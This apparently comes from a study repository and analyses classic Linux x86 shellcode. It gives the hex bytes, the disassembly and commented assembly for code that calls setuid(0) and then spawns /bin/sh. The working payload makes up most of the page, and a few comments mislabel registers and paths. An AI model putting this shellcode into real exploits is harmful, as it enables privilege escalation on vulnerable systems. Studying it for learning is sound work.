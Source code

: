 ## Shellcode analysis case 1

----

#### Shellcode - Spawns a root shell on Linux : [source](https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html) 
```
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52
\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89
\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80

```
```
Dissassembly-
0:  31 c0                   xor    eax,eax
2:  89 c3                   mov    ebx,eax
4:  b0 17                   mov    al,0x17
6:  cd 80                   int    0x80
8:  31 d2                   xor    edx,edx
a:  52                      push   edx
b:  68 6e 2f 73 68          push   0x68732f6e
10: 68 2f 2f 62 69          push   0x69622f2f
15: 89 e3                   mov    ebx,esp
17: 52                      push   edx
18: 53                      push   ebx
19: 89 e1                   mov    ecx,esp
1b: 8d 42 0b                lea    eax,[edx+0xb]
1e: cd 80                   int    0x80 
```
Executing the setuid syscall
```assembly
xor    eax,eax ; zero's out the eax register
mov    ebx,eax ; clears ebx register
mov    al,0x17 ; SysCall 0x17 (sys_setuid16)
int    0x80    ; Executes syscall
```
Spawning a /bin/sh shell breakdown-

Pushes the text "\bin\sh" onto the stack which spawns the sh shell
```assembly
xor    edx,edx ; zero out edx
push   edx     ; pushes edx to the stack
; spawning the shell
push   0x68732f6e ; little endian hex code "n\sh"
push   0x69622f2f ; little endian hex code "\\bi"
mov    ebx,esp    ; puts the address of /bin/sh into edx from esp
```
Since using PUSH puts something on top of the stack, it ESP is pointing to it
we can utilize this and load the address of /bin/sh into ebx since its being pushed into ESP
```assembly
push   edx  ; pushing ebx to the stack
push   ebx  ; puts ebx on the stack
mov    ecx,esp  ; loading esp register into ecx
lea    eax,[edx+0xb] ;stores edx register + 11
int    0x80  ; interupt, starts it
```


## Commented /bin/sh Assembly shellcode
```assembly
global _start
section .data
_start:
        xor    eax,eax       ; zero's out the eax register
        mov    ebx,eax       ; clears ebx register
        mov    al,0x17       ; SysCall 0x17 (sys_setuid16)
        int    0x80          ; Executes syscall
        xor    edx,edx       ; zero out edx
        push   edx           ; pushes 0 to the stack
        push   0x68732f6e    ; little endian hex code "n\sh"
        push   0x69622f2f    ; little endian hex code "\\bi"
        mov    ebx,esp       ; ges /bin/sh address
        push   edx           ; pushing ebx to the stack
        push   ebx           ; puts ebx on the stack
        mov    ecx,esp       ; loading esp register into ecx
        lea    eax,[edx+0xb] ; stores edx register + 11
        int    0x80          ; interupt, starts it all
